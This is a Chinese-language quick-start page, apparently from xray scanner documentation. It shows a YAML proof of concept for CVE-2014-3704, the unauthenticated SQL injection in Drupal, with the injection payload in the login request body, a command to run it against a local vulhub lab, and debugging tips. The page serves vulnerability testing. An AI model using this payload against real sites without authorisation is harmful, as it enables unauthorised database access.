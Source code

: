 # 快速开始

我们使用CVE-2014-3704进行举例，这是一个Drupal的未授权sql注入漏洞，靶场参考[vulhub/drupal/CVE-2014-3704](https://github.com/vulhub/vulhub/blob/master/drupal/CVE-2014-3704)

**POC:**
```yaml
name: poc-yaml-drupal-cve-2014-3704-sqli
transport: http
set:
  rand: randomInt(200000000, 210000000)
rules:
  r0:
    request:
      method: POST
      path: /?q=node&destination=node
      headers:
        Content-Type: application/x-www-form-urlencoded
      body: pass=lol&form_build_id=&form_id=user_login_block&op=Log+in&name[0 or updatexml(0,concat(0xa,(select md5({{rand}}))),0)%23]=bob&name[0]=a
    expression: >-
      response.status == 500 &&
      response.body.bcontains(bytes(substr(md5(string(rand)), 0, 31)))
expression: r0()
detail:
  author: test
  links:
    - https://github.com/vulhub/vulhub/tree/master/drupal/CVE-2014-3704
```
## 如何使用 POC

将上述POC保存为drupal-cve-2014-3704-sqli.yml，假定与xray可执行文件存放于同一目录下，可执行如下命令：

```shell
./xray ws --poc drupal-cve-2014-3704-sqli.yml --url http://127.0.0.1:8080
```
![](../assets/poc/hit.png)

## 如何调试 POC

如果 poc 无法扫出期望的结果，可以按照以下思路调试

- 确定 poc 语法正确，payload 正确。
- 在配置文件 `http` 段中加入 `proxy: "http://proxy:port"`，比如设置 burpsuite 为代理，这样 poc 发送的请求可以在 burp 中看到，看是否是期望的样子。